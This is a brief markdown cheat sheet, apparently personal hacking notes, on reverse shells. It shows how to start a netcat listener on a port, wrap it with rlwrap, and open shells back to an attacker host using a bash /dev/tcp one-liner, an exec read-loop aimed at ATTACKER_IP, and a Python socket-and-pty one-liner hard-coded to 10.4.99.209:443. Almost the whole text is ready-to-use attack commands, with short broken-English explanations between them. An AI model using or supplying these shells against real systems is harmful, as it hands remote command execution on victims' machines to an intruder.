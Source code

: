 # create a reverse shell listener:

we canc create a shell listener that is binded to a port. in that way when we receive a connection in this port we can send a command .

to create a shell binded port.

```bash
nc -lvnp {port}

```

## Utility :

Rlwrap allow to use a reverse shell with some command like history

```bash
rlwrap nc -lvnp 443
```

# shell

## BASH :

## BASIC

we can create a shell in bash that send to a IP:port all command of the shell.

```bash
bash -i >& /dev/tcp/{IP}/443 0>&1
```

## REVERSE LINE:

```bash
exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done
```

## Python

```python
PY-C 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
